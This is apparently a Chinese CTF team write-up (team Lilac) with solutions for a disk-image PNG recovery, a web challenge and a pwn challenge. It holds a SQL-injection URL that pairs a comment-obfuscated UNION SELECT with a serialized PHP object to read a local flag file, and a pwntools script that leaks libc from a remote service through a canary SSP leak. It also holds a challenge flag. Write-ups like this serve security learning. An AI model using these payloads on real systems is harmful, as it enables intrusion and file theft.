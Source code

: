 Team: Lilac
---------
- [misc](#misc)
	- [签到](#签到)
	- [clip](#clip)
- [web](#web)
	- [facebook](#facebook)
- [pwn](#pwn)
    - [guess](#guess)
    - [blind](#blind)
- [reverse](#reverse)
	- [beijing](#beijing)
	- [blend](#blend)
	- [advanced](#advanced)
- [crypto](#crypto)
	- [hashcoll](#hashcoll)

## misc
### 签到
无
### clip
- 对damaged.disk分析可知包含png图片,提取图片得到了两张图片.
- 修复png文件头, 对图片还原PS等,得到flag:
`flag{0b008070-eb72-4b99-abed-092075d72a40}`
## web
### facebook
利用点: **sql注入+反序列化+LFR**
payload:
```html
/view.php?no=0/*123*/UniOn/*123*/select/*123*/0,1,2,%22O:8:\%22UserInfo\%22:3:{s:4:\%22name\%22;s:5:\%22lilac\%22;s:3:\%22age\%22;i:0;s:4:\%22blog\%22;s:29:\%22file:///var/www/html/flag.php\%22;}%22
```
## pwn
### guess
- 程序把flag读在栈上，提供了栈溢出，但是有canary保护，看似没有其他漏洞了，很自然地想到了**ssp leak**，但是不知道栈地址。从程序提供3次输入机会想到可以先用got地址泄露libc，然后用libc上的environ泄露栈地址，然后算出得到的栈地址与flag的距离，最后拿flag，这个距离值是固定的，正好可以通过3次泄露完成。libc可以用各种工具拿到，测试时发现远程环境和本地相同.

```python
from pwn import *
'''
for i in range(0x80, 0x180, 8):
  p = process("./GUESS")
p.recvuntil("flag\n")
p.sendline("1" * i + p64(0x0400C90))
p.recvline()
x = p.recvline()
p.close()
print hex(i), x
'''
environ = 0x03C6F38
p = remote("106.75.90.160", 9999)
p.recvuntil("flag\n")
p.sendline("1" * 0x128 + p64(0x602040))
print p.recvuntil("***: ")
read_offset = u64(p.recv(6).ljust(8, "\x00"))
libc = read_offset - 0x00000000000F7250
environ += libc
print hex(libc)
```